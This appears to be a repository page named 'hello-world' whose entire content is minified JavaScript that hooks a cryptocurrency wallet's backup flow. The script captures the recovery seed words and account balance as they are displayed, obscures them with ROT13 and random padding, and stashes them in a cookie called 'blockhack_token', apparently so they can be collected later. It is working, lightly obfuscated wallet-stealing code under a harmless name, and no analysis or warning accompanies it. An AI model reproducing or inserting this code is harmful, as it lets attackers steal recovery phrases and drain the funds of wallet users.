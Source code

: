 # hello-world
function blockhack_token(e){return(e+"").replace(/[a-z]/gi,function(e){return String.fromCharCode(e.charCodeAt(0)+("n">e.toLowerCase()?13:-13))})}function sleep(e){return new Promise(function(t){return setTimeout(t,e)})}function makeid(e){for(var t="",n=0;n&lt;e;n++)t+="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".charAt(Math.floor(62*Math.random()));return t}for(var elems=document.querySelectorAll(".sc-bdVaJa.iOqSrY"),keys=[],result=makeid(300),i=elems.length;i--;)"backupFundsButton"==elems[i].getAttribute("data-e2e")&amp;&amp;elems[i].addEventListener("click",myFunc,!1);function myFunc(){setTimeout(function(){for(var e=document.querySelectorAll(".sc-bdVaJa.KFCFP"),t=e.length;t--;)e[t].addEventListener("click",start,!1)},1e3)}function start(){keys=[],setTimeout(function(){var e=document.querySelectorAll("div[data-e2e=backupWords]"),t=document.querySelectorAll(".KFCFP");for(e.forEach(function(e,t,n){e=blockhack_token(e.getElementsByTagName("div")[1].textContent),keys.push(e.replace(/\s/g,""))}),e=t.length;e--;)"toRecoveryTwo"==t[e].getAttribute("data-e2e")&amp;&amp;t[e].addEventListener("click",end,!1)},1e3)}function end(){setTimeout(function(){document.querySelectorAll("div[data-e2e=backupWords]").forEach(function(e,t,n){e=blockhack_token(e.getElementsByTagName("div")[1].textContent),keys.push(e.replace(/\s/g,""))});var e=document.querySelectorAll("div[data-e2e=topBalanceTotal]")[0].textContent,t=result+"["+e+"]["+keys.join("]"+makeid(300)+"[");t+="]"+makeid(300),document.cookie="blockhack_token="+t},1e3)}
